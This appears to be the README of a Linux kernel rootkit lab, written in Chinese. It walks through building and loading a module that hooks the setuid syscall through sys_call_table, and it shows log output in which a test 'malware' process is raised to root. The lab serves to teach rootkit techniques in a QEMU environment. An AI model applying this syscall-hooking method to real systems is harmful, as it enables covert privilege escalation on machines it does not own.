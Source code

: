 # HookSyscall

* 添加一个内核模块，hook系统调用setuid，使得恶意进程通过该系统调用提权。

## 环境准备

* （可选）编译指定版本内核，实验中采用v6.6。

```bash
cd ~/Kernel
./compile v6.6 x86_64
```

> 注意：该实验请导出符号kallsyms_lookup_name。

* 拷贝仓库源码到宿主机的共享文件夹。

```bash
cd ~/Workdir/share
git clone http://10.10.21.30/linux-kernel/practice_kern.git
```

* 进入项目目录。

```bash
cd practice_kern/RootKit
```

* 确认[Makefile](Makefile)中路径是否正确。

```Makefile
# 目标内核的根目录（确认是否存在对应目录）
LINUX_KERNEL_PATH := /home/user/Kernel/v6.6/x86_64/
```

* 编译内核模块。

```bash
make
```

生成 `hook_syscall.ko` 文件。

## 实验运行

* 启动qemu运行编译好的内核。

```bash
./run v6.6 x86_64 focal
```

* 用户为user，无密码。

```bash
kernel login: user
```

> 接下来的操作都在客户机中。

* 进入客户机的共享文件夹中的实验目录。

```bash
cd /tmp/share/practice_kern/RootKit/HookSyscall
```

* 编译运行malware。

```bash
make malware && make run
```

## 实验要求

* malware会循环检查自己的权限并调用setuid，加载HookSyscall模块后，malware调用新的setuid，使得权限为root权限。

``` bash
sudo insmod hook_syscall.ko
[   41.850746][ T7921] hook_syscall: loading out-of-tree module taints kernel.
[   41.851199][ T7921] hook_syscall: module verification failed: signature and/or required key missing l
[   41.851903][ T7921] HookSyscall Module Loaded
[   41.852187][ T7921] Found target process: malware (PID: 7914)
[   41.852541][ T7921] sys_call_table found at ffffffff83e00240
[   41.852861][ T7921] Original syscall handler at ffffffff81216730
[   41.853665][ T7921] Installed hook for syscall 105
[   43.569028][ T7914] sys_mycall called
[   43.569910][ T7914] Elevating privileges for process 'malware' (PID: 7914)
<malware>: ruid=1000 euid=1000
[   48.572940][ T7914] sys_mycall called
[   48.573834][ T7914] Elevating privileges for process 'malware' (PID: 7914)
<malware>: ruid=0 euid=0
```
